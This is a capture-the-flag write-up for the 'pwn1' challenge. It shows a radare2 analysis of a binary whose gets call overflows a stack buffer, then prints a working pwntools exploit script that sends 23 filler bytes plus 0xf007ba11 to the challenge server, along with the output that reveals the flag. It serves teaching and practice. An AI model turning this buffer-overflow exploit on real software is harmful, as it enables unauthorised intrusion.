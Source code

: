 # pwn1 #

This challenge did not give us any clue, this was the description of the challenge:

![description](imgs/description.png)

We downloaded the binary named pwn1.

```
sha256sum pwn1
d7649dfe173eedd569664d41a400082187a2d21287e65a8016d564c4f8c648fe  pwn1
```
## Running the binary ##
Running the binary revealed that there was some kind of check going on ...
```
./pwn1
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
foo
That is not the secret word!
```
## Binary analysis ##
We fired up our trusty radare2 to analyze the binary ...
```
r2 pwn1copy
[0x08048450]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
```
We listed the functions with the afl command and something popped out immediately:

![afl-functions](imgs/afl.png)

There was an interesting function called sym.print_flag (hopefully that would give us our flag),
after inspecting the execution flow we noticed that there was a comparison between an address in
memory and the constant 0xf007ba11.

![jne](imgs/jne.png)

We knew that our buffer input is stored in ebp-0x23 as shown in the instructions below:

```
0x08048611 8d45dd         lea eax, dword [local_23h]
0x08048614 50             push eax
0x08048615 e8b6fdffff     call sym.imp.gets;[gc]
```

To overwrite the address at ebp-0xc we needed 23 bytes (gets was not limiting our input length),
and after that we had to add the value 0xf007ba11. We used pwntools to generate a quick script
to connect to the challenge to get our flag.

```python
from pwn import *

c = remote('pwn.ctf.tamu.edu', 4321)
print c.recvline()
print c.recvline()
print c.recvline()
string = '\x41' * 23 + '\x11\xba\x07\xf0'
print c.sendline(string)
print c.recvline()
print c.recvline()
```
## Getting the flag ##
After running our script, we were able to get the flag ...

```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4321: Done
This is a super secret program

Noone is allowed through except for those who know the secret!

What is my secret?

None
How did you figure out my secret?!

gigem{H0W_H4RD_1S_TH4T?}

[*] Closed connection to pwn.ctf.tamu.edu port 4321
```

